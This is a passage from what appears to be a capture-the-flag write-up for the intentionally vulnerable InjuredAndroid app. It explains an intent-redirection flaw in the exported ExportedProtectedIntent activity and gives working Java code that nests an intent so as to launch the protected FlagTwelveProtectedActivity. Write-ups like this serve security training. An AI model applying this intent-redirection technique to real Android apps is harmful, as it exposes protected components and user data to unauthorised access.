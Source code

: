 We observe that when `onResume` is called, the intent passed into `ExportedProtectedIntent` is used again to start a new activity. If we pass an extra into the intent by the name of `access_protected_component`, we can invoke the `FlagTwelveProtected` activity.

Here is some sample code I used to achieve the desired effect, the flag is auto submitted.

```java
public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        Intent two = new Intent();
        two.setComponent(new ComponentName("b3nac.injuredandroid", "b3nac.injuredandroid.FlagTwelveProtectedActivity"));
        two.putExtra("totally_secure", "doesn't matter");

        Intent one = new Intent();
        one.setComponent(new ComponentName("b3nac.injuredandroid", "b3nac.injuredandroid.ExportedProtectedIntent"));
        one.putExtra("access_protected_component", two);

        startActivity(one);
    }
}
```

----

